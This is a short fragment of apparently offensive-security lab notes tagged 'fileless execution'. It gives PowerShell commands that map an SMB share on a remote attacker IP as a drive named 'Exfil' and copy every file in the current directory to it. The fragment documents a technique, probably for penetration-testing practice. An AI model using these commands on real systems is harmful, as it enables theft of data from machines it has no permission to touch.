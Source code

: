 Tips:
```Powershell
PS C:\> New-PSDrive -Name "SHARE_NAME" -PsProvider "Filesystem" -Root "\\YOUR_IP\YOUR_SHARE_NAME"
PS C:\> New-PSDrive -Name "Exfil" -PsProvider "Filesystem" -Root "\\10.10.14.195\share"
PS C:\> copy * Exfil:\
```

# #fileless-execution 
